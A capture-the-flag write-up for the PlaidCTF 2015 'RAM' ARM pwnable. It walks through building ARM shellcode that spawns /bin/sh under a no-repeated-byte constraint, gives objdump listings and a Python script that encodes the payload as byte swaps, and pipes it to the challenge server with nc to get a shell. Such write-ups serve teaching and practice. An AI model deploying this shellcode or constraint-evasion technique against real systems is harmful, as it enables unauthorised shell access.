 # PlaidCTF CTF 2015: RAM

**Category:** Pwnable
**Points:** 170
**Solves:** 31
**Description:**

> Hree is a ctue lttile selhlcdoe 
> [challenge](http://play.plaidctf.com/files/permute_33e624400463108ac96b45bc6158fa54.py) ([old version](http://play.plaidctf.com/files/permute_30b51ae3e1ce42cf57462073236b3a85.py)).
> 
> Server: 52.4.108.221 port 4444
> 
> 
> Team	Points	Submission
> fuzzi3	176	18 hours ago
> gallopsled	173	17 hours ago
> Tracer Tea	171	17 hours ago

## Write-up

First, let's break down what the supplied python file does. Here is the first relevant section:

```python
buf = map(chr, range(256))

while 1:
    a,b = map(ord, sys.stdin.read(2))
    if a == b:
        break
    buf[a], buf[b] = buf[b], buf[a]
```

The first line creates a buffer containing '\x00\x01\x02 ... \xFF'. The next loop reads pairs of bytes from the input, and swaps arbitrary bytes in the buffer based on the user input. Since stdin is user-controlled, this lets us create any arbitrary permutation of the bytes from 0 to 255.

The next section of the file creates an executable file, writes an ELF header, dumps the permuted buffer into the ELF file, and executes it. There's one little thing to make things interesting:

```python
elf += pack('<HHI', 2, 0x28, 1) # type=exec, machine=ARM, version=1
```

That's right, we're going to be writing ARM machine code. At this point the solution is obvious, all we have to do is come up with some ARM machine instructions that get a shell, with the additional constraint that it has to be some permutation on the bytes from 0 to 255. Or, equivalently, we need ARM shellcode that never uses the same byte twice.

To solve this problem you'll need to grab an ARM toolchain and a userspace emulator to run the code locally.

```
sudo apt-get install qemu-user libc6-armel-cross libc6-dev-armel-cross binutils-arm-linux-gnueabi gcc-arm-linux-gnueabi
```

Let's start with some basic code to exec a shell on ARM, and then see what modifications we need to make in order to do it without ever reusing the same byte.

```
.text
.globl _start
_start:
    mov %r7, $11
    ldr %r0, =msg
    mov %r1, $0
    mov %r2, $0
    svc 0
msg:
    .asciz "/bin/sh"
```

Build and test, then objdump the result to see what our machine code looks like.

```
arm-linux-gnueabi-gcc -o arm.exe -nostartfiles -static arm.S
qemu-arm arm.exe
$ <we have a shell> exit
arm-linux-gnueabi-objdump -d arm.exe
```
```
00008098 <_start>:
    8098:	e3a0700b 	mov	r7, #11
    809c:	e59f0010 	ldr	r0, [pc, #16]	; 80b4 <msg+0x8>
    80a0:	e3a01000 	mov	r1, #0
    80a4:	e3a02000 	mov	r2, #0
    80a8:	ef000000 	svc	0x00000000

000080ac <msg>:
    80ac:	6e69622f 	.word	0x6e69622f
    80b0:	0068732f 	.word	0x0068732f
    80b4:	000080ac 	.word	0x000080ac
```

The most obviously reused byte in there is 0, and we can immediately see that there is going to be a problem with the `svc` instruction, which has 3 of them. But this is all assuming we use the EABI; searching around the internet shows that there is an older, obsolete syscall API, which puts the syscall number in the svc instruction. The older ABI also does not use r7, so we can get rid of the first instruction. We can also replace `mov` instructions with math instructions that do the same thing, and a bit of experimentation showed that r2 was already 0, and we don't need to overwrite it.

```
00008098 <_start>:
    8098:	e59f000c 	ldr	r0, [pc, #12]	; 80ac <msg+0x8>
    809c:	e0231003 	eor	r1, r3, r3
    80a0:	ef90000b 	svc	0x0090000b

000080a4 <msg>:
    80a4:	6e69622f 	.word	0x6e69622f
    80a8:	0068732f 	.word	0x0068732f
    80ac:	000080a4 	.word	0x000080a4

```

The next major obstacle is the '/' in '/bin/sh'. We need two slashes in the filename, which means we can't send the exact filename bytes as part of the input. The code also cannot self-modify, which means we have to transfer the filename to the stack somehow. We also need to generate the trailing 0 byte because we already used one in the `svc` instruction.

Here is a cut at copying '/bin/sh' to the stack:

```
00008098 <_start>:
    8098:	e0231003 	eor	r1, r3, r3
    809c:	e28f5018 	add	r5, pc, #24
    80a0:	e8150180 	ldmda	r5, {r7, r8}
    80a4:	e24d0008 	sub	r0, sp, #8
    80a8:	e2888001 	add	r8, r8, #1
    80ac:	e9200180 	stmdb	r0!, {r7, r8}
    80b0:	e5c01007 	strb	r1, [r0, #7]
    80b4:	ef90000b 	svc	0x0090000b

000080b8 <msg>:
    80b8:	6e69622f 	.word	0x6e69622f
    80bc:	7968732e 	.word	0x7968732e

```
That introduced another zero byte, which we can weed out by simply offsetting further up the stack. We can also eliminate duplication between the low bytes of the `ldmda` and the `stmdb` by using different registers and loading/storing dummy registers at the end.

The next thing to deal with is the common `e2` prefix on many of the instructions. That instruction byte contains a condition code field, which allows for conditional execution. What we can do is choose condition codes that are always true so that the instructions get executed. If we change the `eor` to an `eors`, then the 'Z' flag will always be set, so the `le` and `ls` conditions will always be true.

The last thing is the `10` in the `strb` instruction. The 1 comes from r1, which just needs to be any register containing a zero. We can use r2 or r3 instead, because they are initialized to zero by the loader.

```
00008098 <_start>:
    8098:	e0331003 	eors	r1, r3, r3
    809c:	928f501c 	addls	r5, pc, #28
    80a0:	e8151270 	ldmda	r5, {r4, r5, r6, r9, ip}
    80a4:	d24d0f41 	suble	r0, sp, #260	; 0x104
    80a8:	e2898001 	add	r8, r9, #1
    80ac:	e9204340 	stmdb	r0!, {r6, r8, r9, lr}
    80b0:	e5c03007 	strb	r3, [r0, #7]
    80b4:	ef90000b 	svc	0x0090000b

000080b8 <msg>:
    80b8:	6e69622f 	.word	0x6e69622f
    80bc:	7968732e 	.word	0x7968732e
```

Now we have code to get a shell, and it never uses the same byte twice. To turn this into a sequence of swaps that will generate the correct permutation, we can use a small python script:

```python
buf = map(chr, range(256))

f = open("arm.exe", "r")
binary = f.read()[0x98:0xc0]  # use a hex dump of the ELF file to find the offset of the code
f.close()

f = open("permutation.bin", "w")

for i in range(len(binary)):
  ch = binary[i]
  found = False
  for swap in range(i, 256):
    if buf[swap] == ch:
      found = True
      if i != swap:
        print "swapping", i, swap, ord(ch), hex(ord(ch))
        f.write(chr(i))
        f.write(chr(swap))
        buf[i], buf[swap] = buf[swap], buf[i]
  if not found:
    print "could not find character", ord(ch), hex(ord(ch))
    exit(1)

f.write(chr(0))
f.write(chr(0))
f.close()
```

Now we have a file containing the correct permutation. Send it to the server, but keep standard input connected to the terminal, so we can run commands in the shell we created.

```
$ cat permutation.bin - | nc 52.4.108.221 4444
ls
flag.txt
permute.py
submit
cat flag.txt
flag{shellcode_with_the_colors_of_the_rainbow_db43044f}
```

## Other write-ups and resources

* <https://neg9.org/news/2015/4/26/plaidctf-2015-ram-pwnable-170-writeup> 
